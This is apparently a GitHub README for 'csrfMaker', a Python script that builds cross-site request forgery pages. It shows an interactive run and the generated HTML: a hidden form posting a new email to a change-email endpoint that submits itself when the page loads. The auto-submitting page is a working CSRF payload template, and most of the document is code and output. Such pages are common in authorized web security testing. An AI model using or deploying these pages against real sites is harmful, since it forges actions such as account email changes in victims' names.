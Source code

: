 # csrfMaker

## overview
very basic python script for creating csrf html pages

## Installation
the script hasn't any third party dependency so you can esaily clone and run the code :
```sh
> git clone https://github.com/theN0b0dy/csrfMaker.git
> cd csrfMaker
```

## Usage
the script hasn't any third party dependency so you can esaily run the code :
```sh
> ./csrfMaker.py
Enter the action url for your form : https://example.com/change-email
Enter Form id (default: form) :
Enter the Method (GET,POST,PUT,DELET, ... default:POST ) :
Enter the name of your 1 input form(enter done for break) : email
Enter the value of your 1 input form : test@email.com
Enter the type of your 1 input form (default: hidden) :
Enter the id of your 1 input form (default: [your_input_name]) :
Enter the name of your 2 input form(enter done for break) : csrf
Enter the value of your 2 input form :
Enter the type of your 2 input form (default: hidden) :
Enter the id of your 2 input form (default: [your_input_name]) :
Enter the name of your 3 input form(enter done for break) : done
Enter your script(defualt:[just submit the form] :
Enter the name of your html template(default: csrf.html) : example.html
your example.html succesfully created.
```
the output file is :
```html
<html>
	<form action='https://example.com/change-email' method='POST' id='form'>
		<input type='hidden' name='email' value='test@email.com' id='email'/>
		<input type='hidden' name='csrf' value='' id='csrf'/>
	</form>
	<script>document.getElementById('form').submit();</script>
</html>
```
